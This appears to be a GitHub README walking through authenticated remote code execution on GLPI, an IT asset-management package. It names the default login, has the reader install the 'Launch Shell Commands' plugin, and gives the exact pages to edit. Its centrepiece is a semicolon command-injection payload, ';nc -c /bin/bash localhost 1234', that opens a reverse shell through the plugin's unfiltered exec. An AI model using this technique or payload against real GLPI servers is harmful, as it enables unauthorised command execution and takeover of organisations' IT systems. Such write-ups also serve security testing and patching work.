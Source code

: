 # GLPI-RCE-Authenticated
How to RCE as a glpi administrator

``
Gestionnaire Libre de Parc Informatique (GLPI) is a Free Asset and IT Management Software package, that provides ITIL Service Desk features, licenses tracking and software auditing.
``

https://github.com/glpi-project/glpi

## Requirements

You need to be super administrator of glpi to add the plugin and perform the rce.<br>The default login is **glpi / glpi**

## Exploitation 

The technique consists in using a plugin which allows to execute commands on the system like ping or tracert and to divert it towards the reverse shell for example.


Initially you must add a key "GLPI network" in the general parameters of glpi what gives the rights to add extensions, you have just to create an account for free on the site of glpi and to copy paste the key.<br>
https://services.glpi-network.com/register

![](https://i.imgur.com/CuNnAFw.png)

![](https://i.imgur.com/o4HQRnH.png)

in the Marketplace : ``/glpi/front/marketplace.php``<br>
Add the plugin named "Launch Shell Commands"

![](https://i.imgur.com/HO9rTMo.png)

Edit the ping command page : ``/glpi/marketplace/shellcommands/front/shellcommand.form.php?id=1``

Enter a random string in the tag and in the parameters you can run anything as a command using a semicolon<br>
You can use this payload for reverse shell :
```sh 
;nc -c /bin/bash localhost 1234
```

It is simply an "exec" of all the arguments there are no filters<br>
We control the variable $commandToExec

![image](https://user-images.githubusercontent.com/69597623/189349689-45af6cd0-9611-4a85-b561-4219da114738.png)

![](https://i.imgur.com/0vuQnGF.png)

Add a ping command group : ``/glpi/marketplace/shellcommands/front/commandgroup.php``

![](https://i.imgur.com/CKQkOS2.png)

To finish to execute the payload: ``/glpi/marketplace/shellcommands/front/advanced_execution.php``<br>
Select the ping command group, a category and a device from the list (if you don't have one you can create one in Assets)

![](https://i.imgur.com/3ZnE7eJ.png)
![](https://i.imgur.com/zlns3aD.png)


